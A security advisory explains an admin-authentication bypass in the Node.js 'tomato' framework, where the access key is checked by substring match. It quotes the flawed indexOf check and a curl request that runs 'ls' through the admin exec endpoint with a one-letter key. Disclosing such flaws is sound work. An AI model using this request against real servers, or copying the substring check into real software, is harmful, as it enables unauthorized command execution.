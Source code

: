 ```yaml
---
title:  Tomato API Admin Auth Weakness
author:  Adam Baldwin
module_name: tomato
publish_date: 2013-03-07T21:52:30.192Z
cves: "[]"
vulnerable_versions: "<= 0.0.5"
patched_versions: ">= 0.0.6"
...
```


## Overview
Tomato is a Node.js web framework.

The tomato API has an admin service that is enabled by setting up an access_key in the config options. This access_key is intended to protect the API admin from unauthorized access.

The key is checked by checking to see if the access_key provided in the request is within the configured access_key string, not equal to. So a single character that's within the access key is sufficient to bypass this control.

## Example
This is the snippet of code that does the comparison to authorize requests.

```
if (access_key && config.master.api.access_key.indexOf(access_key) !== -1) {
```

For an access_key that is set to anything that includes the letter 'a' the following request would be authorized.

```
$ curl -X POST "http://localhost:8081/api/exec" -H "Content-Type: application/json" -d @test -H "access-key: a"
{
 "cmd": "ls",
 "path": ".",
 "stdout": "app.js\nconfig.js\nlog\nnode_modules\nserver.js\n",
 "stderr": ""
}
```

## Mitigating factors:

The admin interface is disabled by default. The module author confirmed that the access_key should really be an array of access_keys, however based on variable name and documentation it was not clear that it should be an array. The vulnerability exists only if a string access_key is set.

Module version 0.0.6 has been updated to ensure an array of keys is provided as well as documentation updates.



